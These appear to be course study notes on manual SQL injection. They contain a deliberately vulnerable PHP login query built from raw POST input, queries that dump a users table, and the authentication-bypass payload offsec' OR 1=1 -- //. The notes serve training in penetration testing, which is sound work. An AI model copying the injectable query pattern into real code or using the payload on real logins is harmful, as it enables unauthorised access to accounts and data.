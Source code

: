 #### Inspecting the Available Tables in the offsec Database
```MSSQL
SELECT * FROM offsec.information_schema.tables;
```

#### Exploring Users Table Records
```MSSQL
select * from offsec.dbo.users;
```

## Manual SQL Exploitation

### 10.2.1 Identifying SQLi via Error-based Payloads

#### PHP Code Vulnerable to SQL injection
```PHP
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```
By forcing the closing quote on the _uname_ value and adding an _OR =1=1_ statement followed by a _--_ comment separator and two forward slashes (_//_), we can prematurely terminate the SQL statement.

#### Testing for SQLi Authentication Bypass
```
offsec' OR 1=1 -- //
```

#### Injected SQL statement
```MySQL
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```
Since we have appended an OR statement that will always be true, the WHERE clause will return the first user id present in the database, whether or not the record is present

#### Testing for SQLi Authentication Bypass 1
![[Pasted image 20230521093141.png]]
Because the offsec user's credentials are invalid, we receive an _Invalid Password_ error message

#### Testing for SQLi Authentication Bypass 2
![[Pasted image 20230521093156.png]]
We receive an SQL syntax error this time, meaning we are able to interact with the database.

*SQL injection is considered _in-band_ when the vulnerable application provides the result of the query along with the application-returned value. In this scenario, we've enabled SQL debugging inside the web application; however, most production-level web applications won't show these error messages because revealing SQL debugging information is considered a security flaw.*

